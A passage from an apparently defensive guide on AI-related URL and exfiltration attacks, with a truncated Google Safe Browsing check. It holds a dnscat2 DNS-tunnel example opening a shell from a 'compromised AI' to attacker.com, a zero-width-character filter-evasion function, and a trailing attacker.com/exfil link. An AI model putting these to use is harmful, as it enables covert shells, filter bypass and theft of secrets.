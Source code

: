 ### 3. DNS Exfiltration Tool (Conceptual)
```bash
# DNScat2 - DNS tunneling tool (research purposes)
# Attacker server
dnscat2 --dns server=attacker.com

# Victim machine (via compromised AI)
dnscat2 --dns domain=attacker.com --exec /bin/bash
```

### 4. Zero-Width Character Injection
```python
def inject_zero_width_chars(url):
    """Insert invisible characters to evade filters"""
    zero_width_space = '\u200B'
    zero_width_joiner = '\u200D'

    # Insert zero-width chars in URL
    obfuscated = url.replace('://', f':{zero_width_space}/{zero_width_space}/')
    obfuscated = obfuscated.replace('.com', f'.{zero_width_joiner}com')

    return obfuscated

# Example
clean_url = "https://malicious.com/phishing"
obfuscated_url = inject_zero_width_chars(clean_url)
print(f"Contains {len(obfuscated_url) - len(clean_url)} invisible characters")
```

---

## Defense Tools & Strategies

### 1. Google Safe Browsing API
**Purpose:** Check URLs against Google's threat database

**Implementation:**
```python
import requests

def check_url_safety(url, api_key):
    """Query Google Safe Browsing API"""
    endpoint = "https://safebrowsing.googleapis.com/v4/threatMatches:find"

    payload = {
        "client": {
            "clientId": "your_company",
            "clientVersion": "1.0.0"
        },
        "threatInfo": {
            "threatTypes": ["MALWARE", "SOCIAL_ENGINEERING", "UNWANTED_SOFTWARE"],
            "platformTypes": ["ANY_PLATFORM"],
            "threatEntryTypes": ["URL"],
            "threatEntries": [{"url": url}]
        }
    }

    response = requests.post(f"{endpoint}?key={api_key}", json=payload)

    if response.status_code == 200:
        data = response.json()
        if "matches" in data:
            return {"safe": False, "threats": data["matches"]}
```

[ref]: https://attacker.com/exfil?data=secrets